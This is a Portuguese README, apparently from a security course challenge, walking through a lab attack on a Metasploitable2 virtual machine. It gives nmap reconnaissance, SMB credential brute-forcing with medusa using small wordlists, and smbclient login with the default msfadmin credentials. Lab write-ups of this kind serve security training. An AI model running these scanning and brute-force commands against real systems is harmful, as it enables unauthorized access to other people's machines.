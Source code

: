 # Santander-Challenge
Desafio invasão ao metasploitable2 com o kali linux utilizando o medusa


## Reconhecimento 

Utilizei o nmap para escanear a rede, buscar serviços ativos e verificar portas abertas.


```bash
nmap -sV -T4 172.16.0.0/24
```

![Nmap](images/Nmap.png)


Decidi tentar ganhar acesso por SMB


```bash
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```


## Scan 


172.16.0.128
Para fazer o scan de contas e senhas vou utilizar uma já existente no kali linux


```bash
echo -e "user\nmsfadmin\nservice" > users.txt
echo -e "passwoerd\m123456\nWelcome123\nmsfadmin" > password.txt
```


![Wordlist](images/wordlist-smb.png)


Com essas wordlists em mãos, utililzarei o medusa para tentar achar um usuário com a senha comprometida 


```bash
medusa -h 172.16.0.128 -U users.txt -P password.txt -M smbnt -t 2 -T 50
```


![BruteForce](images/Brute-Force-medusa.png)


## Acesso 


Com as credenciais tento o acesso ao servidor SMB


```bash
smbclient -L //172.16.0.128 -U msfadmin
```

> [!TIP]
> Password : msfadmin
>


![Acesso](images/Acesso.png)


Com isso finalizo o teste sem prejudicar a máquina para continuar mais testes.
